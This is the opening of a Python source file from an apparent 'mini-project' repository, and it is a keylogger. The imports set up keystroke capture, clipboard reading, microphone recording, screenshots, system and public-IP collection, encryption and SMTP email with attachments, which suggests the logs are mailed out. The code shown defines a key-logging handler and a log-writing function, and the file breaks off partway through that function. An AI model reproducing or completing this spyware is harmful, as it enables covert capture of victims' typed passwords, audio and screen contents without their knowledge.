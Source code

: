 # python-mini-project

#Libraries

from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText
from email.mime.base import MIMEBase
from email import encoders
import smtplib

#collecting computer informations

import socket
import platform

import win32clipboard

#keystrokes
from pynput.keyboard import Key, Listener

#track time
import time
import os


#microphones with sound devices  module

from scipy.io.wavfile import write
import  sounddevice as sd


#encypt files > use crypto library

from cryptography.fernet import Fernet

import getpass
from requests import get    # more computer info

from multiprocessing import Process, freeze_support   #screenshot functionalality
from PIL import ImageGrab

# All libraries imported till here

#......


#keylogger - itself segment

#keys created will be appended to
keys_information = "key_log.txt"

#file path itself
file_path = "C:\\Users\\ankit\\PycharmProjects\\pythonProject\\Projects"
extend = "\\"   # for accessing keylog text file

count = 0
keys = []
def on_press(key):
    global keys, count

    print(key)
    keys.append(key)

    count += 1

def write_file(keys):     #write function to write keys to specific file
    with open(file_path + extend + keys_information, "a") as f:
        

